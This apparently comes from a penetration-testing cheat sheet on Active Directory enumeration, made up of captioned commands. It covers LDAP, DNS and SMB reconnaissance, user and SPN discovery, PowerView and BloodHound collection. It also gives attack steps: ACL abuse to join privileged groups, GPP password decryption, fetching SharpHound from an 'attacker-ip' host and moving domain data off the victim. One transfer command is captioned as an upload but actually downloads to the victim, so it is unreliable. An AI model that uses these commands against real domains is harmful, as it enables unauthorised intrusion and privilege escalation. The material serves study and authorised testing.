

Active Directory Enumeration
Basic Domain Enumeration
LDAP Search
Retrieve potential user, computer, and domain structure information from LDAP.
ldapsearch -x -H ldap://$dc-ip -b "dc=domain,dc=com"
Enumerate DNS
Gather information about key servers and subdomains within the domain.
gobuster dns -d domain.com -t 25 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top2000.txt
SMB Shares
Enumerate SMB services and accessible shared resources.
Go to SMB / Host EnumerationLDAP Services Scan
Identify exposed LDAP services and supported capabilities.
nmap -n -sV --script "ldap* and not brute" -p 389 $dc-ip
Find Valid Users
Enumerate valid domain users without authentication.
crackmapexec smb domain.com -u '' -p '' --users
kerbrute userenum -d domain.com users.txt --dc dc-ip -o valid_users.txt
Tool: Username-Anarchy
Generates possible usernames using common enterprise naming conventions.
GitHub RepositoryEnumerate All AD Users (Authenticated)
Enumerate full Active Directory users once valid credentials are obtained.
impacket-GetADUsers -all -dc-ip dc-ip -u username -p password domain.com
enum4linux -a -u username -p password dc-ip
Enumerating AD via DNS
Discover domain-related DNS records and services.
nmap -p 53 --script "dns-nsid,dns-srv-enum" target-ip
Zone Transfer
Attempts to retrieve full DNS zone data via AXFR transfer.
dnsrecon -d domain.com -n dns-server-ip -t axfr
dnsenum --enum -f /usr/share/dnsenum/dns.txt --dnsserver dns-server-ip domain.com
DNS Record Lookup
Queries specific DNS records such as A and SRV records.
dig A domain.com @dc-ip
dig SRV _ldap._tcp.dc._msdcs.domain.com @dc-ip
Reverse Lookup
Resolves IP addresses to hostnames via reverse DNS queries.
nmap -sL target-ip-range | grep "Nmap scan report"
DNS Cache Snooping
Checks cached DNS entries stored on the DNS server.
dig @dns-server-ip -t A +norecurse target-domain
Enumerate DNS with PowerShell (Windows)
Queries DNS records directly from a Windows system.
Resolve-DnsName -Name domain.com -Server dns-server-ip -DnsOnly
Find My Domain SID
Using PowerShell
Retrieves the unique Security Identifier of the domain.
(Get-ADDomain).DomainSID
Using CMD
Displays the SID of the currently logged-in user.
whoami /user
Using WMIC
Queries the SID of a specific local or domain user.
wmic useraccount where name='usernameToFind' get sid
Find Domain Controller Name
Using PowerShell
Lists all available domain controllers in the domain.
Get-ADDomainController -Filter *
Using nltest
Enumerates domain controllers using NetLogon service.
nltest /dclist:yourdomain.com
Using netdom
Queries domain controller roles and availability.
netdom query dc
Using nslookup
Resolves domain name to associated DNS servers.
nslookup yourdomain.com
Using ADUC
Manually identifies domain controllers through graphical Active Directory tools.
Find Service Account Names
List All Users with SPNs
Identifies user accounts associated with service principal names.
Get-ADUser -Filter {ServicePrincipalName -ne $null} -Property ServicePrincipalName | Select-Object Name, ServicePrincipalName
Find MSSQL Service Accounts
Searches for SQL Server service accounts via SPNs.
Get-ADUser -Filter {ServicePrincipalName -like "*MSSQL*"} -Property ServicePrincipalName | Select-Object Name, ServicePrincipalName
Check Running Services
Identifies services running under non-default user accounts.
Get-WmiObject -Class Win32_Service | Where-Object { $_.StartName -ne "LocalSystem" -and $_.StartName -ne "LocalService" -and $_.StartName -ne "NetworkService" } | Select-Object Name, StartName
sc queryex type= service
Domain Trusts
Enumerates trust relationships between multiple domains.
nltest /domain_trusts
Identify Service Accounts by SPN
Lists managed service accounts registered in Active Directory.
Get-ADServiceAccount -Filter * | Select-Object Name, ServicePrincipalNames
Finding SPNs
| SPN | Name |
|---|---|
cifs |
Common Internet File System |
dcom |
Distributed Component Object Model |
exchange |
Microsoft Exchange Server |
ftp |
File Transfer Protocol |
http |
Hypertext Transfer Protocol |
imap |
Internet Message Access Protocol |
krbtgt |
Kerberos Ticket Granting Ticket |
ldap |
Lightweight Directory Access Protocol |
mssql |
Microsoft SQL Server |
mysql |
MySQL Database |
nfs |
Network File System |
oracle |
Oracle Database |
pgsq |
PostgreSQL Database |
pop3 |
Post Office Protocol 3 |
rpc |
Remote Procedure Call |
smtp |
Simple Mail Transfer Protocol |
svc |
Service |
termsrv |
Terminal Server |
wsman |
Windows Remote Management |
PowerShell
Enumerates SPNs associated with domain computer accounts.
Get-ADComputer -Filter * -Properties ServicePrincipalName | Select-Object -ExpandProperty ServicePrincipalName
Bash (Kali)
Queries LDAP directly for computer objects with SPNs.
ldapsearch -x -h DC_IP -b "DC=domain,DC=com" "(&(objectClass=computer)(servicePrincipalName=*))" servicePrincipalName
Check Domain Users
Lists all users within the domain.
net user /domain
net user username /domain
Check Domain Groups
Enumerates domain groups and their members.
net groups /domain
net groups groupName /domain
LDAP Helper Scripts
Get Full LDAP Path
Builds the full LDAP distinguished name path dynamically.
$PDC=[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN=([adsi]'').distinguishedName
"LDAP://$PDC/$DN"
Get SAM Account Info
Enumerates user accounts using specific SAM account types.
function Get-SAMInfo {
$PDC=[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN=([adsi]'').distinguishedName
$LDAP="LDAP://$PDC/$DN"
$direntry=New-Object System.DirectoryServices.DirectoryEntry($LDAP)
$dirsearcher=New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.filter="samAccountType=805306368"
$dirsearcher.FindAll() | ForEach-Object { $_.Properties }
}
LDAP Search Function
Wraps LDAP queries into a reusable PowerShell function.
function LDAPSearch {
param ([string]$LDAPQuery)
$PDC=[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN=([adsi]'').distinguishedName
$DE=New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DN")
$DS=New-Object System.DirectoryServices.DirectorySearcher($DE,$LDAPQuery)
$DS.FindAll()
}
LDAP Queries
Executes custom LDAP filters for users and groups.
LDAPSearch -LDAPQuery "(samAccountType=805306368)"
LDAPSearch -LDAPQuery "(objectclass=group)"
foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) { $group.Properties | Select-Object {$_.cn}, {$_.member} }
PowerView Enumeration
Download PowerView.ps1
Download PowerView script to perform advanced Active Directory enumeration.
Download PowerView.ps1Import PowerView Module
Loads PowerView functions into the current PowerShell session.
Import-Module .\PowerView.ps1
Get Domain Information
Retrieves basic information about the current Active Directory domain.
Get-NetDomain
Find Domain Name
Discovers the domain name using domain controller discovery.
Get-ADDomainController -Discover
Get Domain Users
Enumerates all user accounts present in the Active Directory domain.
Get-NetUser
User Detailed Information
Extracts specific attributes from domain user objects.
Get-NetUser | Select-Object [attributes]
Group Information
Enumerates domain groups and their associated attributes.
Get-NetGroup | Select-Object [attributes]
Operating System Information
Lists domain computers including operating system details.
Get-NetComputer | Select-Object [attributes]
Get Domain Admins
Identifies members of the Domain Admins privileged group.
Get-NetGroup -GroupName "Domain Admins"
Find Kerberoastable Accounts
Finds user accounts with SPNs vulnerable to Kerberoasting attacks.
Get-NetUser -SPN
Enumerate Domain Controllers
Lists all domain controllers within the Active Directory environment.
Get-NetDomainController
Find Network Shares
Enumerates shared folders available across domain systems.
Get-NetShare
Check for Delegation
Identifies accounts configured with Kerberos delegation permissions.
Get-NetUser -Delegation
Service Principal Names Enumeration
List SPN linked to a user: setspn -L [service] List SPN accounts in the domain: Get-NetUser -SPN | Select-Object samaccountname, serviceprincipalnameObject Permissions Enumeration

Active Directory Permission Types
Common Active Directory object permissions that can be abused for privilege escalation.
- ForceChangePassword → Abused with Set-DomainUserPassword
- Add Members → Abused with Add-DomainGroupMember
- GenericAll → Full control over the object
- GenericWrite → Modify object attributes
- WriteOwner → Take ownership of the object
- WriteDACL → Modify object ACL permissions
- AllExtendedRights → Reset passwords or modify memberships
- AddSelf → Add yourself to a group
Enumerate Object ACL for a User
Enumerates access control entries applied to a specific user object.
Get-ObjectAcl -Identity username
Convert Object SID to Name
Resolves a Security Identifier into a readable domain user or group name.
Convert-SidToName SID
Enumerate ACLs for a Group
Finds group objects where permissions like GenericAll are assigned.
Get-ObjectAcl -Identity "GroupName" | Where-Object { $_.ActiveDirectoryRights -eq "GenericAll" } | Select-Object SecurityIdentifier, ActiveDirectoryRights
Convert Multiple SIDs to Names
Resolves multiple SIDs to identify users or groups with dangerous permissions.
"SID1","SID2" | Convert-SidToName
Add Yourself to a Domain Group
Abuses group permissions to add your user into a privileged group.
net group "GroupName" username /add /domain
Verify Group Membership
Confirms whether the user was successfully added to the target group.
Get-NetGroup "GroupName" | Select-Object member
Domain Shares Enumeration
Find Domain Shares
Enumerates all shared folders across domain computers using PowerView.
Find-DomainShare
Decrypt GPP Passwords
Decrypts Group Policy Preferences passwords stored in SYSVOL files.
gpp-decrypt encrypted_password
BloodHound and SharpHound
SharpHound Resources
Official tools used to collect Active Directory relationships for BloodHound analysis.
Download SharpHound
Transfers SharpHound to the target system for Active Directory data collection.
Invoke-WebRequest -Uri "http://attacker-ip/sharphound.ps1" -OutFile "C:\Temp\sharphound.ps1"
Invoke-WebRequest -Uri "http://attacker-ip/sharphound.exe" -OutFile "C:\Temp\sharphound.exe"
Find Domain Name
Identifies the Active Directory domain name required for SharpHound execution.
nltest /dclist:domainname
Get-ADDomainController -Discover
Run SharpHound Executable
Collects comprehensive Active Directory data using the SharpHound executable.
.\SharpHound.exe -c All
.\SharpHound.exe -c All -d domain.com -u username -p password -f AllData
Run SharpHound PowerShell
Executes SharpHound directly in memory using PowerShell for stealthier collection.
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain domain.com -OutputDirectory C:\Temp
Collect Specific Methods
Limits data collection to specific attack paths for faster and targeted analysis.
Invoke-BloodHound -CollectionMethod Group
Invoke-BloodHound -CollectionMethod ACL
Transfer Collected Data to Kali
Moves the generated BloodHound ZIP files from the target to Kali Linux.
download bloodhound_data.zip
scp user@victim-ip:C:\Temp\*.zip /path/to/kali/dir
Invoke-WebRequest -Uri "http://kali-ip/upload/path" -OutFile "C:\Temp\bloodhound.zip"
Run BloodHound on Kali
Starts Neo4j and BloodHound interface to analyze collected Active Directory data.
sudo neo4j start
bloodhound
Access Neo4j at https://localhost:7474 using default credentials neo4j:neo4j.
Import the collected .zip files into BloodHound.
Group Policy Preferences Passwords
AD Enumeration Strategy
- Start unauthenticated
- Reuse credentials aggressively
- Graph everything with BloodHound
- Every permission is an attack path